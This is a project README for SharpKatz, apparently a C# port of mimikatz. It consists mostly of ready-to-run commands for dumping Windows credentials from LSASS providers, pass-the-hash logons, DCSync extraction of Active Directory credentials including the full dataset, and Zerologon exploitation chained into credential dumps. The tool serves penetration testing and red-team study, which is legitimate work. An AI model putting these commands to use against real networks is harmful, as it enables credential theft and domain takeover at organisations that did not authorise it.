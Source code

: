 # SharpKatz
Porting of mimikatz sekurlsa::logonpasswords,  sekurlsa::ekeys and lsadump::dcsync commands

## Usage

### Ekeys

```SharpKatz.exe --Command ekeys```<br>
 list Kerberos encryption keys <br>
 <br>

### Msv

```SharpKatz.exe --Command msv``` <br>
Retrive user credentials from Msv provider <br>
<br>

### Kerberos

```SharpKatz.exe --Command kerberos```<br>
Retrive user credentials from Kerberos provider <br>
<br>

### Tspkg

```SharpKatz.exe --Command tspkg```<br>
Retrive user credentials from Tspkg provider <br>
<br>

### Credman

```SharpKatz.exe --Command credman```<br>
Retrive user credentials from Credman provider <br>
<br>

### WDigest

```SharpKatz.exe --Command wdigest```<br>
Retrive user credentials from WDigest provider <br>
<br>

### Logonpasswords

```SharpKatz.exe --Command logonpasswords```<br>
Retrive user credentials from all providers <br>
<br>

### Pth

```SharpKatz.exe --Command pth --User username --Domain userdomain --NtlmHash ntlmhash```<br>
Perform pth to create a process under userdomain\username credential with ntlm hash of the user's password<br>
<br>
```SharpKatz.exe --Command pth --User username --Domain userdomain --Rc4 rc4key```<br>
Perform pth to create a process under userdomain\username credential user's rc4 key<br>
<br>
```SharpKatz.exe --Command pth --Luid luid --NtlmHash ntlmhash```<br>
Replace ntlm hash for an existing logonsession <br>
<br>
```SharpKatz.exe --Command pth --User username --Domain userdomain --NtlmHash ntlmhash --aes256 aes256```<br>
Perform pth to create a process under userdomain\username credential with ntlm hash of the user's password and aes256 key <br>
<br>

### DCSync

```SharpKatz.exe --Command dcsync --User user --Domain userdomain --DomainController dc```<br>
Dump user credential by username <br>
<br>
```SharpKatz.exe --Command dcsync --Guid guid --Domain userdomain --DomainController dc```<br>
Dump user credential by GUID <br>
<br>
```SharpKatz.exe --Command dcsync --Domain userdomain --DomainController dc```<br>
Export the entire dataset from AD to a file created in the current user's temp forder<br>
<br>
```SharpKatz.exe --Command dcsync --User user --Domain userdomain --DomainController dc --AuthUser authuser --AuthDomain authdomain --AuthPassword authuserpassword```<br>
Dump user credential by username using alternative credentials<br>
<br>
```SharpKatz.exe --Command dcsync --Guid guid --Domain userdomain --DomainController dc --AuthUser authuser --AuthDomain authdomain --AuthPassword authuserpassword```<br>
Dump user credential by GUID using alternative credentials<br>
<br>
```SharpKatz.exe --Command dcsync --Domain userdomain --DomainController dc --AuthUser authuser --AuthDomain authdomain --AuthPassword authuserpassword```<br>
Export the entire dataset from AD to a file created in the current user's temp forder using alternative credentials<br>
<br>

### Zerologon

No reference to logoncli.dll, using the direct rpc call works even from a [non-domain joined workstation](https://twitter.com/gentilkiwi/status/1306178689630076929)

```SharpKatz.exe --Command zerologon --Mode check --Target WIN-NSE5CPCP07C.testlab2.local --MachineAccount WIN-NSE5CPCP07C$```<br>
Perform Zerologon check <br>
<br>
```SharpKatz.exe --Command zerologon --Mode exploit --Target WIN-NSE5CPCP07C.testlab2.local --MachineAccount WIN-NSE5CPCP07C$```<br>
Perform Zerologon attack <br>
<br>
```SharpKatz.exe --Command zerologon --Mode auto --Target WIN-NSE5CPCP07C.testlab2.local --MachineAccount WIN-NSE5CPCP07C$ --Domain testlab2.local --User krbtgt --DomainController WIN-NSE5CPCP07C.testlab2.local```<br>
Perform Zerologon attack and dump user credential by username <br>
<br>
```SharpKatz.exe --Command zerologon --Mode auto --Target WIN-NSE5CPCP07C.testlab2.local --MachineAccount WIN-NSE5CPCP07C$ --Domain testlab2.local --Guid guid --DomainController WIN-NSE5CPCP07C.testlab2.local```<br>
Perform Zerologon attack and ump user credential by GUID <br>
<br>
```SharpKatz.exe --Command zerologon --Mode auto --Target WIN-NSE5CPCP07C.testlab2.local --MachineAccount WIN-NSE5CPCP07C$ --Domain testlab2.local --DomainController WIN-NSE5CPCP07C.testlab2.local```<br>
Perform Zerologon attack and export the entire dataset from AD to a file created in the current user's temp forder<br>
<br>
Note: Do not use zerologon in a production environment or at least plan for recovery actions which are detailed [here](https://github.com/dirkjanm/CVE-2020-1472) 


## Credits

This project depends entirely on the work of [Benjamin Delpy](https://twitter.com/gentilkiwi) and [Vincent Le Toux](https://twitter.com/mysmartlogon) on [Mimikatz](https://github.com/gentilkiwi/mimikatz) and [MakeMeEnterpriseAdmin](https://raw.githubusercontent.com/vletoux/MakeMeEnterpriseAdmin/master/MakeMeEnterpriseAdmin.ps1) projects.<br>
The analysis of the code was conducted following the example from [this blog post](https://blog.xpnsec.com/exploring-mimikatz-part-1/) by [xpn](https://twitter.com/_xpn_).<br>
<br>
